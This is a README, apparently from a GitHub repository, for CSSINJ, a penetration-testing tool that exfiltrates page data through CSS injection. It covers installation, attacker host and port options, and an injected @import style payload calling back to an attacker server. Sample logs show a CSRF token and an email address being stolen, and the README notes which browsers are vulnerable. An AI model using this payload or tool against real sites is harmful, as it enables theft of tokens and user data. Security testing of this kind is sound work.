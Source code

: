 ```yaml
---

# CSSINJ  

```
  _____   _____   _____  _____  _   _       _     _____  __     __
 / ____| / ____| / ____||_   _|| \ | |     | |   |  __ \ \ \   / /
| |     | (___  | (___    | |  |  \| |     | |   | |__) | \ \_/ /
| |      \___ \  \___ \   | |  | . ` | _   | |   |  ___/   \   /
| |____  ____) | ____) | _| |_ | |\  || |__| | _ | |        | |
 \_____||_____/ |_____/ |_____||_| \_| \____/ (_)|_|        |_|
```

## About  

**CSSINJ** is a penetration testing tool that exploits [**CSS injection vulnerabilities**](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/11-Client-side_Testing/05-Testing_for_CSS_Injection) to exfiltrate sensitive information from web applications. This tool is designed for security professionals to assess the security posture of web applications by demonstrating how CSS can be used to extract data covertly.  


## Installation  

To install and set up **CSSINJ** from Source, run the following commands:  

```bash
git clone https://github.com/DonAsako/CSSinj.git
cd CSSinj
python3 -m venv venv  
source venv/bin/activate
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade build
python3 -m build
python3 -m pip install .
```

Now you’re ready to use **CSSINJ**! 🎯  

## Usage  

```bash
python3 -m cssinj inject [-h] -H HOSTNAME -p PORT -i IDENTIFIER
```

### Options  

| Option                 | Description                                 |
|------------------------|---------------------------------------------|
| `-h, --help`           | Show help message and exit                  |
| `-H, --hostname`       | Attacker hostname or IP address             |
| `-p, --port`           | Port number of the attacker                 |
| `-e, --element`        | HTML element to extract specific data       |
| `-a, --attribut`       | Specify an element Attribute Selector for exfiltration     |
| `-d, --details`        | Show detailed logs of the exfiltration process, including extracted data |

### Example  

#### Victim's View :
```html
<input type="text" id="username" value="admin" disabled>
<input type="email" id="email" value="admin@admin.XX" disabled>
<input type="text" class="csrf" value="MySecretAdminToken" hidden>
<img src="XXXXXXXXXXX.XX">
...
```

<style>
  @import url('//localhost:5005/start');
</style>
...
```

#### Using a specific CSS identifier : 

```bash
~ python3 CSSINJ.py inject -H 127.0.0.1 -p 5005 -e input
  _____   _____   _____  _____  _   _       _     _____  __     __
 / ____| / ____| / ____||_   _|| \ | |     | |   |  __ \ \ \   / /
| |     | (___  | (___    | |  |  \| |     | |   | |__) | \ \_/ /
| |      \___ \  \___ \   | |  | . ` | _   | |   |  ___/   \   /
| |____  ____) | ____) | _| |_ | |\  || |__| | _ | |        | |
 \_____||_____/ |_____/ |_____||_| \_| \____/ (_)|_|        |_|

[2025-03-11 02:40:55] 🛠️ Attacker's server started on 127.0.0.1:5005
[2025-03-11 02:40:56] 🌐 Connection from ::1
[2025-03-11 02:40:56] ⚙️ ID : 1
[2025-03-11 02:40:56] ✅ [1] - The value exfiltrated from input is : MySecretAdminToken
[2025-03-11 02:40:56] ✅ [1] - The value exfiltrated from input is : admin@admin.XX
[2025-03-11 02:40:56] ✅ [1] - The value exfiltrated from input is : admin
```

#### Using a specific CSS attribute selector and a generic CSS identifier:

```bash
~ python3 CSSINJ.py inject -H 127.0.0.1 -p 5005 -e \* -a src
  _____   _____   _____  _____  _   _       _     _____  __     __
 / ____| / ____| / ____||_   _|| \ | |     | |   |  __ \ \ \   / /
| |     | (___  | (___    | |  |  \| |     | |   | |__) | \ \_/ /
| |      \___ \  \___ \   | |  | . ` | _   | |   |  ___/   \   /
| |____  ____) | ____) | _| |_ | |\  || |__| | _ | |        | |
 \_____||_____/ |_____/ |_____||_| \_| \____/ (_)|_|        |_|

[2025-03-11 03:06:49] 🛠️ Attacker's server started on 127.0.0.1:5005
[2025-03-11 03:06:49] 🌐 Connection from ::1
[2025-03-11 03:06:49] ⚙️ ID : 1
[2025-03-11 03:06:49] ✅ [1] - The src exfiltrated from * is : XXXXXXXXXXX.XX
```

## Browser-Specific Behavior

The success of CSS injection attacks using @import depends on the browser's handling of CSS imports:
- Chromium-based browsers (Chrome, Edge, Brave, etc.) allow recursive CSS imports and will process the injected styles, making them vulnerable to exfiltration techniques using @import.

- Firefox, however, handles @import differently:
  - Unlike Chromium-based browsers, Firefox processes all @import rules before applying any styles.
  - As a result, the attack fails because the browser never processes the CSS selectors, preventing data exfiltration.
  - This behavior causes an infinite loop where the browser keeps waiting for a CSS update that never happens.

This difference in behavior makes Chromium-based browsers more susceptible to CSS injection exfiltration, while Firefox provides better protection against such attacks.

## Todo
- General : 
  - [ ] Add error Handler
  - [ ] Add test
  - [ ] Edit Terminal

- Injection : 
  - [ ] Add injection parameters
  - [ ] Add an option to save results to a file
  - [ ] Allow multiple CSS selectors for simultaneous extraction
  - [ ] Add g all of the page
  - [ ] Refract cssinjector.py
  - [ ] Add timeout

- Scan :
  - [ ] Implement automatic detection of CSS injection vulnerabilities
  - [ ] Implement Proxy

## Disclaimer  

This tool is intended **only for ethical hacking and security research**. **Unauthorized use on systems without explicit permission is illegal**. The developer **is not responsible** for any misuse of this tool.  

## Author  

**CSSINJ** was developed by **Asako**.  
